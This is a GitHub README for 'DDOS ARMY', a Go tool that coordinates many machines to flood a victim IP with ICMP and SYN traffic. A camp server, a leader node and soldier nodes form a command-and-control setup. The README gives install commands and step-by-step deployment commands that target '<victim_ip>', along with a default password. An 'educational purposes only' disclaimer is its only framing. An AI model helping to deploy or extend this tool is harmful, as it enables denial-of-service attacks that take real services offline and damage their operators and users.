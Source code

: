 ![Banner Image](img/ddosarmydemo.gif)

# DDOS ARMY



## What is DDOS ARMY?
ddosarmy is a tool that allows
you to launch a DDoS attack on IP victim address,
with other machines synchronously.

### ⚠️ DISCLAIMER ⚠️:
️ It is intended to be used for educational purposes only.
I am not responsible for any misuse or damage caused by this program.
## Features
* 🏕️ Support clustering attack concept 
* 💣 Support ICMP, SYN flood attack (more to come)
* ⛓️ Support concurrency and parallelism
* Cross-platform (Linux 💀, Windows 🪟, Mac OS X🍏, BSD)
* ⚙️ Easy Army management (stop, start, shutdown, change attack strategy, etc.)
* ✅ Friendly terminal user interface
* 📈 Profiling and benchmarking requests for each soldier (node)
## Installation

### binary (recommended)
```bash
go install github.com/XORbit01/ddosarmy@latest 
```
you can download the binary from 
[Releases](https://github.com/XORbit01/DDOS-ARMY/releases/tag/v0.0.5)


### From source
```bash
git clone https://github.com/XORbit01/DDOS-ARMY 
cd ddosarmy
go build -o ddosarmy 
```

## Usage
```bash
ddosarmy -h
```

## steps
### 1. create army camp
this must be hosted on a server with public ip address, so that the soldiers can connect to it.
```bash
ddosarmy camp -v <victim_ip>
```
### 2. leader access camp
leader is the node that will orchestrate the army and send the attack commands to the soldiers.
```bash
ddosarmy leader -c <camp_ip> -s password
```
the default password is `password`, this password is set when you created the camp
### 3. soldiers access camp
the soldiers are the nodes responsible for sending dummy packets flooding the victim ip address.
it will listen to the leader node and execute the attack commands.
```bashq
ddosarmy soldier -c <camp_ip>  
```


## How it works
as you can see in the image below, the leader node is responsible for sending the attack commands to the soldiers.
the dispatcher (camp) is responsible for sending the attack commands to the soldiers.
he is not responsible for sending a single packet to the victim ip address.

![How it works](img/howitworks.jpg)


## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.
you can also contact me on discord:`XORbit#5945`
